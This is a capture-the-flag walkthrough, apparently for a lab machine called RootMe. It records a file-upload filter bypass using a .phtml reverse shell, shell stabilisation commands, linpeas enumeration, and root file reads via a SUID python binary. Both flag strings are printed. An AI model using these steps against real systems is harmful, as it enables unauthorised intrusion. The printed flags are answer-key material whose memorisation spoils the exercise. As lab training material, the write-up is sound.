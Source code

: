 # RootMe
- IP: 10.10.104.72

## Open Ports
```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```
## Port 80
- interesting directories
  - /uploads
  - /panel
    - /panel disallows php uploads
    - uploaded a reverse shell with .phtml extension

## Reverse shell
- Open NetCat
- Trigger reverse shell by navigating to /uploads/php-reverse-shell.phtml
- Stabilize shell
  - `python3 -c 'import pty; pty.spawn("/bin/bash")'`
  - `export TERM=xterm`
  - `CTRL + Z`
  - `stty raw -echo; fg`

## Find first flag
- `find -name 'user.txt'`
  - /var/www/user.txt
- `cat /var/www/user.txt`
  - THM{y0u_g0t_a_sh3ll}

## Priviledge Escalation
- Use linPeas (download from host python3 server)
  - `./linpeas.sh | tee linlog.txt`
  - Result: python vulnerable
- Check if python has SUID permission
  - `find / -perm /4000 2>/dev/null`
  - /usr/bin/python
- Goal: root/root.txt
  - `python -c 'print(open("/root/root.txt").read())'`
  - THM{pr1v1l3g3_3sc4l4t10n}

SOLVED

